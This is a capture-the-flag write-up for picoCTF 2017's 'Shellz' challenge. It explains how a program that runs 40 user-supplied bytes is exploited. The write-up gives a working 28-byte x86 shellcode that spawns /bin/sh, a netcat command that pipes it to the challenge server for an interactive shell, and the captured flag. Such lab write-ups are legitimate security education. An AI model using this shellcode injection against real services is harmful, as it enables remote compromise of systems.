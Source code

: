 # Shellz
```
You no longer have an easy thing to call, but you have more space. Program: shellz! Source. Connect on shell2017.picoctf.com:23459.
HINTS
There is a bunch of preexisting shellcode already out there!
```

The program runs the 40 bytes worth of binary instructions that are entered by the user. We simply need to inject a shellcode that executes /bin/sh that is less than 40 bytes. There exist many premade shellcodes. We chose to use a 28 byte one from this link. 
[http://shell-storm.org/shellcode/files/shellcode-811.php](http://shell-storm.org/shellcode/files/shellcode-811.php)

Using python we can or echo -e we can pipe the shellcode into the program. We will however have to do 2 other things. We will have to evaluate pass stdin back to the process with 'cat' followed by no arguments and evaluate our expression before piping it in. The command takes the following format in the end.

```Python
(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat) | nc shell2017.picoctf.com 23459
```

After executing this command we are left with a shell on their server and we simply need to cat the flag.

```
 python -c "print len('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')"
28
robbie@debian-server:~/PicoCTF2017/binary_exploitation/level2/shellz$ ./get_shell.sh
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 40 bytes:
cat flag.txt
5b5ba2c3b5558ec86315fd52b0c55a87
```
